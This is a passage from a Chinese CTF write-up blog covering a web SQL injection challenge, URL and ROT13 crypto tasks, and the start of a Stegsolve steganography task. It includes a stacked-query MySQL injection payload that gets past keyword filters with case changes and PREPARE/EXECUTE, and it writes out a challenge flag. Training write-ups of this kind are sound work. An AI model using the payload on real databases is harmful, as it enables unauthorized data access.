 

<img src="https://i-blog.csdnimg.cn/blog_migrate/d20ece199527b4af5de35f246e9375ca.png" alt="" style="max-height:179px; box-sizing:content-box;" />


发先过滤了set和prepare 我们进行大小写即可

```cobol
-1';Set @sql = concat('sel','ect * from`1919810931114514`;');Prepare a from @sql;EXECUTE a;#

```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b0b190158ff80b80df4a9396f4d34242.png" alt="" style="max-height:338px; box-sizing:content-box;" />


得到flag

## Crypto

### Url编码



<img src="https://i-blog.csdnimg.cn/blog_migrate/e9877d6d334a8e6b1cad712b7b5571ce.png" alt="" style="max-height:430px; box-sizing:content-box;" />


直接解码即可

### 看我回旋踢

下载后打开文件 发现是flag格式

想到凯撒密码

对照ascii发现偏移量为13

```cobol
synt{5pq1004q-86n5-46q8-o720-oro5on0417r1}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/558c45b91713db2460b6254e8a0f7d6c.png" alt="" style="max-height:559px; box-sizing:content-box;" />


## Misc

### 你竟然赶我走

下载文件

 [CTF-Misc基础知识之图片及各种工具_ctf图片修复_Ke1R的博客-CSDN博客](https://blog.csdn.net/m0_62770485/article/details/124231894) 

打开Stegsolve.jar

放入图片
